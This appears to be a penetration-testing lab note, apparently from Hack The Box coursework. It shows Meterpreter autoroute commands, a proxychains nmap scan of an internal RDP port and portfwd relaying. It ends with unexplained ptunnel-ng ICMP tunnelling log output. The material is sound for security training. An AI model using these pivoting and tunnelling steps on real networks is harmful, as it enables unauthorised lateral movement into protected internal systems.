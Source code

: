 It is also possible to add routes with autoroute by running autoroute from the Meterpreter session.

```
meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
[*] Use the -p option to list all active routes
```

After adding the necessary route(s) we can use the `-p` option to list the active routes to make sure our configuration is applied as expected.

```
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.129.0.0         255.255.0.0        Session 1
   172.16.4.0         255.255.254.0      Session 1
   172.16.5.0         255.255.254.0      Session 1
```

### **Testing Proxy & Routing Functionality**

```
dollarboysushil@htb[/htb]$ proxychains nmap 172.16.5.19 -p3389 -sT -v -PnProxyChains-3.1 (http://proxychains.sf.net)
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds
```

# **Port Forwarding**

This can be achieved using `portfwd` module. We can enable a listener on our attack host and request meterpreter to forward all the packets received on this port via our meterpreter session to a remote host on the `172.16.5.0/23` network.

```
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19

[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.